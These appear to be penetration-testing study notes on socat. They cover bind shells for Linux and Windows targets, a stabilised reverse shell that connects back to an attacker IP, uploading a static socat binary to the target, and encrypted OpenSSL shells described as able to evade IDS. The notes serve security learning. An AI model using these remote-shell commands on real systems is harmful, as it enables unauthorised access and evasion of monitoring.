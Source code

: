 
### Bind
On a linux target we set up the listener as the following
```sh
socat TCP-L:<PORT> EXEC:"bash -li"
```
While on windows
```sh
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Regardless of the target we use the following on our attacking machine to connect to the listener
```sh
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

### Stabilisation
One of the advantages of socat is its versatility, one of the ways in which we can use this is to significantly stabilise the reverse shell. In the case of a linux target we can use
```sh
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
Which would, as usual connect two points together through TCP, in this case these two points are a listening port and a file, specifically, we are passing the current TTY as a file and setting the echo to be zero. This is the equivalent to using the Ctrl+Z `stty raw -echo; fg` trick with a netcat shell, with the benefit of being immediately stable and hooking into a full tty.

The normal listener can be connected to with any payload, however, this special listener must be activated with a very specific socat command, meaning the target must also have socat installed. As not all targets are gonna have it, we can upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.
The command is as follows
```sh
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
First we are linking with the listener running on our own machine. Then it creates an interactive bash session with `EXEC:"bash -li"` and then we pass the following arguments
* pty: allocates a pseudoterminal on the target 
* stderr: makes sure that any error messages get shown in the shell
* sigint: passes any Ctrl+C commands through into the sub-process, allowing us to kill commands inside the shell
* setsid: creates the process in a new session
* sane: stabilises the terminal, attempting to "normalise" it

### Encryption
One of the cool things about socat is that it's capable of creating encrypted shells, for both bind and reverse shells. This means that the shells cannot be spied on unless we have the decryption key, and are often able to bypass and IDS as a result. 
Unlike with the normal syntax that uses `TCP` we will instead replace it with `OPENSSL`. 
First tho we need to generate a certificate in order to use encrypted shells. 
```sh
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
This command creates a 2048 bit RSA key with a matching cert file, self-signed, and valid for just under a year. When running this command it will ask us to fill in information about the certificate, it can be left blank or filled randomly. Then we need to merge the two created files into a single `.pem` file.
```sh
cat shell.key shell.crt > shell.pem
```
Now, when we set up our reverse shell listener we use
```sh
socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -
```